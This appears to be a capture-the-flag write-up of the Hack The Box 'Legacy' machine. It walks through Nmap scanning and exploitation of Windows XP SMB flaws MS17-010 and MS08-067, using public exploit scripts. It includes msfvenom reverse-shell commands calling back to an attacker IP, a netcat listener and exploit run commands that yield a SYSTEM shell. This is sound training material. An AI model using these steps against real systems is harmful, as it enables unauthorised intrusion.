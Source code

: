 # Legacy

<figure><img src="../../.gitbook/assets/image (252).png" alt=""><figcaption><p>Fig 1. Nmap full port scan</p></figcaption></figure>

Running the full port scan on the target system, ports 135, 139 and 445 were open.&#x20;

<figure><img src="../../.gitbook/assets/image (242).png" alt=""><figcaption><p>Fig 2. Nmap Aggressive scan</p></figcaption></figure>

Next, I ran an aggressive Nmap scan using the `-A` flag. From the OS guesses, it is most likely running Microsoft Windows XP SP3.

<figure><img src="../../.gitbook/assets/image (241).png" alt=""><figcaption><p>Fig 3. Nmap vuln scanning</p></figcaption></figure>

Using the arguments `--script vuln`, I found the target to be vulnerable to `MS08-067` and `MS17-010`.&#x20;

### MS17-010 (Eternal Blue)

1. Clone the repository containing the exploit for MS17-010 using the command `git clone https://github.com/worawit/MS17-010`
2.  Generate a reverse shell (`shell.exe`) using&#x20;

    ```bash
    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 -f exe > shell.exe
    ```

<figure><img src="../../.gitbook/assets/image (213).png" alt=""><figcaption><p>Fig 4. Generate shell.exe</p></figcaption></figure>

3. Edit the following section inside the `zzz_exploit.py` file.

<figure><img src="../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption><p>Fig 5. Before editing <code>zzz_exploit.py</code> file</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (220).png" alt=""><figcaption><p>Fig 6. After editing <code>zzz_exploit.py</code> file</p></figcaption></figure>

4. Setup Netcat listener.

<figure><img src="../../.gitbook/assets/rev shell.png" alt=""><figcaption><p>Fig 7. Setup a Netcat listener</p></figcaption></figure>

4. Run the script using the command `python2.7 zzz_exploit.py 10.10.10.4`

<figure><img src="../../.gitbook/assets/image (257).png" alt=""><figcaption><p>Fig 8. Running exploit.py file</p></figcaption></figure>

5. &#x20;A reverse shell is obtained on the Netcat listener.

<figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption><p>Fig 9. Obtained a reverse shell </p></figcaption></figure>

6. To find the locations of the `user.txt` and the `root.txt` files, use the following commands.

```shell
cd \
dir /s user.txt
dir /s root.txt
```

<figure><img src="../../.gitbook/assets/image (70).png" alt=""><figcaption><p>Fig 10. Obtaining r the flags</p></figcaption></figure>

### MS08-067

1. Clone the exploit repository using the command `git clone https://github.com/andyacer/ms08_067.git`.&#x20;
2. Use the command `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows` to generate a reverse shell shellcode.

<figure><img src="../../.gitbook/assets/image (292).png" alt=""><figcaption><p>Fig 11. Generating reverse shell shellcode</p></figcaption></figure>

3. Running the command `python2.7 ms08_067_2018.py` shows the OS number for Windows XP SP3 English (NX) as 6.

<figure><img src="../../.gitbook/assets/image (287).png" alt=""><figcaption><p>Fig 12. Help page for the script</p></figcaption></figure>

4. Running the command `python2.7 ms08_067_2018.py 10.10.10.4 6 445` , I managed to obtain a reverse shell with SYSTEM privileges.

<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption><p>Fig 13. Running the exploit script</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (75).png" alt=""><figcaption><p>Fig 14. Obtained reverse shell</p></figcaption></figure>
